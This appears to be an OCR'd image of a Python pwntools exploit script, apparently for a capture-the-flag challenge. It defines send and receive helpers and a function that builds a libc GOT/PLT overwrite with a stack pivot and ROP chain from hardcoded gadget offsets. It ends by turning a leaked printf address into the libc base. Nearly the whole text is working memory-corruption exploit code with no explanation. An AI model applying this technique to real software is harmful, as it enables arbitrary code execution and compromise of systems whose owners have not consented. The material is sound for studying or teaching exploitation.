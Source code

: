 ```python

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'


def fx5(libc: ELF, slot, rop_chain):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr

    pivot = libc.address + 0x0000000000035732  # pop rsp; ret
    escape = libc.address + 0x00000000000838f8  # pop rsp; jmp rax

    # let [rsp+0x40] != NULL ??
    # [rsp+0x70] == NULL
    # [rsp + 0xf0] == NULL
    zero_buf = libc.address + 0x21a870 - 0x40

    write_dest = got + 8
    trampoline_offset = slot * 8 - (write_dest - got)
    rop_chain2 = [rop_chain, escape, zero_buf]
    rop_offset = 0x10
    assert len(rop_chain) <= trampoline_offset - 0x10 - 8, "use fx3 instead"
    info("rop offset: 0x{:x}".format(rop_offset))
    write_data = flat({
        0x00: write_dest + rop_offset,
        0x08: pivot,
        rop_offset: rop_chain2,
        trampoline_offset: plt0,
    }, word_size=64)

    return write_dest, write_data


leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase
```